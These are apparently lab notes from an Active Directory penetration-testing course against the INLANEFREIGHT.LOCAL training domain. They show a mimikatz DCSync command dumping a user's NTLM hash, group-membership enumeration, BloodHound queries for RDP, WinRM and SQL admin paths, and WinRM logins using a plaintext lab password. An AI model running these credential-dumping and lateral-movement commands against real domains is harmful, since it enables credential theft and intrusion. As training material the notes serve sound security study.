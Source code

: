 ```
```
As for the user khartsfield, we can get the NTLM hash using the following command
```
mimikatz # lsadump::dcsync /domain:INLANEFREIGHT.LOCAL /user:INLANEFREIGHT\khartsfield
```
# Does the Domain Users group have local admin rights or execution rights (such as RDP or WinRM) over one or more hosts?
## RDP
```
Get-NetLocalGroupMember -ComputerName ACADEMY-EA-MS01 -GroupName "Remote Desktop Users”
```
We can search for the username in BloodHound to check what type of remote access rights they have either directly or inherited via group membership under Execution Rights on the Node Info tab.
We could also check the Analysis tab and run the pre-built queries Find Workstations where Domain Users can RDP or Find Servers where Domain Users can RDP
```
xfreerdp or Remmina from our VM 
```
```
mstsc.exe if attacking from a Windows host
```
## WinRM
### Enumerating the Remote Management Users Group
```
Get-NetLocalGroupMember -ComputerName ACADEMY-EA-MS01 -GroupName "Remote Management Users"
```
Custom Cypher query in BloodHound to hunt for users with this type of access. This can be done by pasting the query into the Raw Query box at the bottom of the screen and hitting enter.
```
MATCH p1=shortestPath((u1:User)-[r1:MemberOf*1..]->(g1:Group)) MATCH p2=(u1)-[:CanPSRemote*1..]->(c:Computer) RETURN p2
```
### Establishing WinRM Session
#### Windows
```
$password = ConvertTo-SecureString "Klmcargo2" -AsPlainText -Force
```
```
$cred = new-object System.Management.Automation.PSCredential ("INLANEFREIGHT\forend", $password)
```
```
Enter-PSSession -ComputerName ACADEMY-EA-MS01 -Credential $cred
```
#### Linux
```
gem install evil-winrm
```
```
evil-winrm -i 10.129.201.234 -u forend
```
## SQL Server Admin
We can check for SQL Admin Rights in the Node Info tab for a given user or use this custom Cypher query to search:
```
MATCH p1=shortestPath((u1:User)-[r1:MemberOf*1..]->(g1:Group)) MATCH p2=(u1)-[:SQLAdmin*1..]->(c:Computer) RETURN p2
```
### Windows